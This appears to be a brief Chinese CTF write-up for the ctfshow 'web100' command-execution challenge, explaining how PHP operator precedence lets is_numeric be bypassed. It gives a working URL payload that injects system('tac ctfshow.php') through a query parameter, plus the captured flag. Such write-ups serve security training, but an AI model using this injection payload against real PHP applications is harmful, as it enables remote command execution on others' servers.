 # web100
![](vx_images/425178153754779.png)
命令执行
is_numeric() 函数用于检测变量是否为数字或数字字符串
&& > || > = > and > or%0D%0A%0D%0A=的运算符比and高
对于v0的值只需要看v1就可以v2,v3是干扰

?v1=1&v2=system('tac ctfshow.php')&v3=;
flag_is_ecef28170x2d4d6f0x2d42c00x2d8a3f0x2d69840251beda
ctfshow{ecef2817-4d6f-42c0-8a3f-69840251beda}

